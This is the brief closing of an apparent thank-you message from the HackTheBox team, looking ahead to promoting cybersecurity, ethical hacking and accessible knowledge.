> Here's to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.
> 
> With deepest gratitude,
> 
> The HackTheBox Team

